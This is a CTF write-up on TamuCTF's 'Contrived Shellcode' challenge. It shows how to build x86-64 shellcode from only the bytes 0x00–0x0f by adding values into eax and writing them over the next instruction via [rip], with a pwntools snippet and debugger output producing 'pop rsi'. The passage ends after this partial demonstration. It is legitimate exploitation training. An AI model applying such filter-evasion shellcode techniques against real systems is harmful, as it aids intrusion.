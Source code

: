 # Contrived Shellcode

This shellcode challenge was one of the *hard pwn* problems from
[TamuCTF](https://tamuctf.com/challenges). TamuCTF is a great CTF, where [our
team](https://research.fit.edu/fitsec) went all in and cleared a lot of the
``pwn`` problems. I started the second day and had to start with this harder
problem. The author leaves a fun note about the problem.

## Problem

*There's a 0% chance this has any real world application, but sometimes it's just fun to test your skills.*

Further, the author provides a [binary](chttps://github.com/tj-oconnor/ctf-
writeups/blob/main/tamu_ctf_23/contrived-shellcode/contrived-shellcode) and
the original [source code](https://github.com/tj-oconnor/ctf-
writeups/blob/main/tamu_ctf_23/contrived-shellcode/contrived-shellcode.c) for
the challenge.

## Solution

Examining the source code, we see it is a shellcode challenge where you are
restricted to only the following bytes:

```c  
unsigned char whitelist[] =
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f";  
```

This is similar to the [gelcode-2 problem](https://ctftime.org/writeup/29138)
from RedPwnCTF 21 (which was limited to only bytes 01-05.) Inspired by
[lms](https://ctftime.org/user/52568)'s solution to that particular problem, I
took a similar approach that ``adds`` a value into ``eax`` and inserts it as
the following instruction by adding eax to ``[rip]`` (which is zeroed to
0x0000000000000000.)

To illustrate how this works, let us examine the ``pop rsi`` instruction. For
``pop rsi``, we need to ``add eax`` up to ``0x5e``. However, we cant use ``add
eax, 0x5e`` since ``0x5e`` is not in our whitelist. For that reason, we need
to use multiple adds ``0xf+0xf+0xf+0xf+0xf+0xf+0x4``.

```python  
rsi_pop = asm('add al, 0xf')*6  
rsi_pop += asm('add al, 0x4')  
rsi_pop += asm('add dword ptr [rip], eax')  
```

We can test this methodology to see if this works in the debugger output.
where we see ```pop rsi``` appear after executing ``add    dword ptr [rip],
eax``.

```  
 ...  
─────────────────────────[ DISASM / x86-64 /  
 0x7f2d4dd61000    add    al, 0xf  
 0x7f2d4dd61002    add    al, 0xf  
 0x7f2d4dd61004    add    al, 0xf  
 0x7f2d4dd61006    add    al, 0xf  
 0x7f2d4dd61008    add    al, 0xf  
 0x7f2d4dd6100a    add    al, 0xf  
 0x7f2d4dd6100c    add    al, 4  
 0x7f2d4dd6100e    add    dword ptr [rip], eax  
► 0x7f2d4dd61014    pop    rsi  
```
